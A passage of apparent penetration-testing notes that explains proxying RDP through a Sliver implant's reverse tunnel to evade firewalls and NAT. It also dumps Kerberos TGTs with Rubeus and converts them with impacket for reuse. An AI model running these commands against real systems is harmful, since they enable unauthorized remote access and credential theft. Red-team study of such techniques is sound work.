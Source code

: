 ### **5. Proxy the RDP Session**
   - **Connect via RDP:**
     - Open your RDP client on your local machine.
     - Connect to `127.0.0.1:3389`, which will now proxy the connection to the target machine's RDP service via the tunnel you established.

### **6. Monitor and Manage the Tunnel**
   - **View Tunnels:**
     - Use `tunnel list` to view active tunnels.
   - **Remove Tunnel:**
     - If you need to remove a tunnel, use:
       ```bash
       tunnel del <tunnel_id>
       ```

### **Important Considerations:**
   - **Firewall/NAT Evasion:** Reverse tunneling (via the implant) helps bypass NAT/firewalls, allowing you to connect to services like RDP even if the target is behind a firewall or NAT.
   - **Security Measures:** Ensure you have the appropriate authorization to perform these actions, as tunneling into a system without permission is illegal and unethical.

This setup enables you to proxy an RDP session through Sliver, allowing remote access and control of the target system via the RDP protocol.


### Rubeus and getting a TGT

```bash
Rebueus dump /service:krbtgt /nowrap
```

- Copy b64 ticket to a file
- Convert b64 to .kirbi
```bash
base64 -d ticket.b64 > ticket.kirbi
```
- Convert to ccache format
```bash
impacket-ticketConverter ticket.kirbi ticket.ccache
```
- export ticket
```bash
export KRB5CCNAME=<path to ticket.ccache>
```

*Alternate way:*
```bash
impacket-getTGT <domain>/<user>:<password>
```